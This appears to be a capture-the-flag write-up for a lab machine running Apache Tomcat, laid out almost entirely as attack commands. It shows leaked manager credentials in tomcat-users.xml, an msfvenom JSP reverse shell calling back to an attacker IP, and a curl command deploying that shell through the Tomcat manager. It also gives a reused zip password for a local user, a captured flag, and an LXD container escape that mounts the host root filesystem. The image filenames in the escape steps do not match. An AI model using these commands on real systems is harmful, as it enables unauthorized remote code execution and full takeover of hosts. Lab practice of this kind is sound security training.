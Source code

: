 ```
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>

```

## admin-gui and manager-script credentials: ```tomcat:$3cureP4s5w0rd123!```

## JSP reverse shell: ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.60 LPORT=4444 -f war > shell.war```

## since we have manager-script a one-line exploit is: ```curl -T "shell.war" -u "tomcat" "http://10.10.10.194:8080/manager/text/deploy?path=/miao"```

## Found Backup zip file encrypted: ```16162020.zip``` in ```/var/www/html/files```, password is: ```admin@it```

## The sysadmin is a lazy man so the credentials for ```ash``` user are: ```ash:admin@it```

## user.txt: ```6fa6a321e52d85d0e61cc853c16e35cc```

## Found that ash user is in the ```lxd``` group, so easy privesc:

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine -a i686
# transfer alpine-v3.12-i686-20200915_1159.tar.gz to /tmp
lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
lxc init myimage miao -c security.privileged=true
lxc config device add miao mydevice disk source=/ path=/mnt/root recursive=true
lxc start miao
lxc exec miao /bin/sh
# go to /mnt/root for root filesystem folder
```
